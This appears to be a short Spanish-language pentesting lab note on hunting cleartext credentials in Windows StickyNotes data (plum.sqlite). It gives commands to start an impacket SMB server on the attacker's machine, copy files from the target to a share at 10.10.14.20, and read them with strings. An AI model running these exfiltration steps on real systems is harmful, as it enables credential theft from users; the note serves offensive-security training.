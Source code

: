 Aplicación que puede guardar contraseñas en texto claro. En AppData se guarda información de StickyNotes.
Puede encontrarse un directorio llamado plum-sqlite, este puede contener credenciales.

Para comprobar los ficheros es mejor transferirlos a nuestra máquina en local.
Montar servidor SMB en la máquina local para transferir los ficheros -->`impacket-smbserver smbFolder $(pwd) -smb2support`
Transferir ficherso desde la máquina objetivo --> `copy <fichero> \\10.10.14.20\smbFolder\<fichero>`

Posteriormente podemos ver las cadenas de caracteres imprimibles en un fichero .sqlite --> `strings <fichero>`